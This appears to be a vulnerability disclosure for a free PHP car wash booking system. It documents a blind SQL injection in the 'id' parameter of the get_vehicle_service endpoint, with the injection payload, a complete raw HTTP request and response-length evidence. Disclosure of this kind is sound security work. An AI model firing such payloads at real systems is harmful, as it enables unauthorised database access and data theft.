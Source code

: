 # Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File:  /ocwbs/classes/Master.php?f=get_vehicle_service

Vulnerability location: /ocwbs/classes/Master.php?f=get_vehicle_service, id

Current database name: ocwbs_db,length is 8

[+] Payload: id=3' and length(database()) =8--+  // Leak place ---> id

```sql
POST /ocwbs/classes/Master.php?f=get_vehicle_service HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/ocwbs/?p=booking
Content-Length: 34
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close

id=3' and length(database()) =8--+
```

When length (database ()) = 7, Content-Length: 30

![image](https://user-images.githubusercontent.com/54017627/169306689-7bf940aa-bd23-404a-81ad-a78b2be2320b.png)

When length (database ()) = 8, Content-Length: 304

![image](https://user-images.githubusercontent.com/54017627/169306735-76297101-c26a-4692-861f-a2ad5bc0d31a.png)

